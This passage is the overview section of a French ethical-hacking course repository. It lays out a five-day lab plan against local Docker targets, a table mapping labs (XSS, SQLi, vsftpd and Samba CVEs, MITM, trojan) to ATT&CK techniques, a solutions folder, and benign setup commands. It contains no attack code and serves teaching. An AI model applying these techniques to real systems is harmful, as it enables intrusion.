- TryHackMe : [Jr Penetration Tester Path](https://tryhackme.com/path/jr-penetration-tester) — room [DVWA](https://tryhackme.com/room/dvwa)

---

## Plan du cours — Vue d'ensemble



**Fig 6** — Plan du cours en 5 jours : chaque jour s'appuie sur les acquis du précédent, de l'initiation (J1) au reporting professionnel (J5).

## Rapport — Petit cours de synthèse

### Architecture du dépôt

```
techniques-de-hacking-niveau-1/
├── rendu_labs/            # 📁 Votre dossier de rendu
│   └── jour-0X/           #   Déposez vos travaux ici
├── labs_resolution/       # 🔥 CORRIGÉS — solutions complètes
│   └── jour-0X/           #   Scripts, scans, exploits résolus
├── env.sh                 # Variables d'environnement (sourcer avant les labs)
├── docker-compose.yml     # Orchestration des 7 conteneurs
├── docker/                # Dockerfiles de chaque conteneur
├── img/                   # Schémas et figures
├── JOUR-0X-*.md           # Supports de cours (5 jours)
└── extra/                 # Projets complémentaires
```

### Correspondance lab → technique ATT&CK

| Lab | Technologie | ATT&CK |
|-----|-------------|--------|
| 1.1 Scan | DVWA | T1046 Network Scanning |
| 1.2 XSS | DVWA | T1189 Drive-by Compromise |
| 1.3 SQLi | DVWA + sqli-app | T1190 Exploit Public App |
| 1.4 CMDi | DVWA | T1059.004 Unix Shell |
| 1.5 SQLi avancée | sqli-app | T1190 + T1110.001 Password Cracking |
| 1.6 Brute-force | DVWA | T1110 Brute Force |
| 2.1 Recon | Metasploitable | T1046 + T1595 |
| 2.2 vsftpd | Metasploitable | T1190 CVE-2011-2523 |
| 2.3 Samba | Metasploitable | T1210 CVE-2007-2447 |
| 2.4 Persistance | Metasploitable | T1098.004 SSH Key |
| 2.5 MITM | DVWA | T1557.002 ARP Poisoning |
| 2.6 Nessus | Metasploitable | T1046 + T1595 |
| 3.1 BOF | buffovf-target | T1068 Privilege Escalation |
| 3.2 WAF | waf-target | T1562.001 Impair Defenses |
| 3.4 Trojan | Windows 10 | T1204.002 + T1071.001 |
| 4.1 Hardening | secure-linux | M1051 + M1018 + M1037 + M1036 |
| 4.2 ELK | Tous | Détection SOC |
| 5.1 Forensique | forensic-victim | T1190 → T1059 → T1505 → T1548 |
| 5.2 Rapport | local | Générateur Python |

### Schémas ajoutés dans ce document

| Fig | Technique | Description |
|-----|-----------|------------|
| Fig 1 | Topologie | 7 conteneurs cibles |
| Fig 2 | MITRE ATT&CK | Chaîne des 14 tactiques |
| Fig 3 | Mapping | Attaques → techniques |
| Fig 4 | Profils | Types de hackers |
| Fig 5 | XSS | Flux XSS réfléchie |
| Fig 5b | SQLi UNION | Injection UNION |
| Fig 5c | CMDi | Command → Reverse shell |
| Fig 5d | Brute-force | Hydra en boucle |
| Fig 6 | Plan | Vue d'ensemble 5 jours |

### Où trouver les corrigés ?

```bash
# Les scripts résolus se trouvent dans labs_resolution/
ls labs_resolution/jour-01/
# Exemple : copier le corrigé du lab XSS dans votre dossier de travail
cp labs_resolution/jour-01/lab_xss.sh rendu_labs/jour-01/
```

### Avant chaque lab

```bash
# 0. Créer votre dossier de rendu pour ce jour (une seule fois)
mkdir -p rendu_labs/jour-0X
# 1. Charger les variables d'environnement
cd /chemin/vers/techniques-de-hacking-niveau-1 && source env.sh
# 2. Démarrer les conteneurs nécessaires
docker compose up -d --build <conteneur>
# 3. Vérifier que le service répond
nc -z localhost <PORT> && echo "Prêt"
# 4. Travailler dans votre dossier de rendu
cd rendu_labs/jour-0X
```

---
